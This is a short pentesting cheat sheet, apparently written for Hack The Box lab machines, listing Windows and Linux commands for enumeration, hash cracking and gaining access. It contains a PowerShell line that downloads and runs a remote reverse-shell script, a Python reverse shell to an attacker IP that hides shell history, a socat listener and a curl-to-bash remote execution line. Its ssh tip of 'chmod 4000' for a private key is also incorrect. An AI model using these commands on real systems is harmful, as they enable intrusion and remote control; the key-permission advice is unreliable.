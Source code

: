 # Windows

## Smb shares enumerate

`smbclient -L 10.10.10.134 -U " "%" " `

## Hidden streams

* List files with streams: `dir \R`
* Read a stream from command line: `more < FileName:StreamName`

## List services

`wmic service where started=true get name, startname`

## Powershell reverse

`IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')`

# Linux

## DNS zone transfer

`dig axfr @10.10.10.52 matis.htb`

## FTP download files 

`wget -r --no-passive ftp://10.10.10.106`

## Reverse shells

* socat file:\`tty\`,echo=0,raw udp-listen:4444
* `import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.16.28\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])`

## Get remote script and execute

`bash <(curl -s http://mywebsite.com/myscript.txt)`

## Find exclude specific words

`find / -type f -name "filename" 2>&1 | grep -v "Permission denied`

## Check capacity

`getcap -r / 2>/dev/null`

## ssh

### 使用 private key 登录

![AxtqoR.png](https://s2.ax1x.com/2019/04/16/AxtqoR.png)

修改 private key 权限，`chmod 4000`

## Tools

### John

#### 7z

```
/opt/john/run/7z2john.pl backup.7z > backup.hash
hashcat -m 11600 -a 0 -o backup.cracked backup.hash /usr/share/wordlists/rockyou.txt --force
```

### Nmap 

#### ldap

`nmap -p 389 --script ldap-search 10.10.10.119`

## network

### Test icmp

`tcpdump -i tun0 icmp`
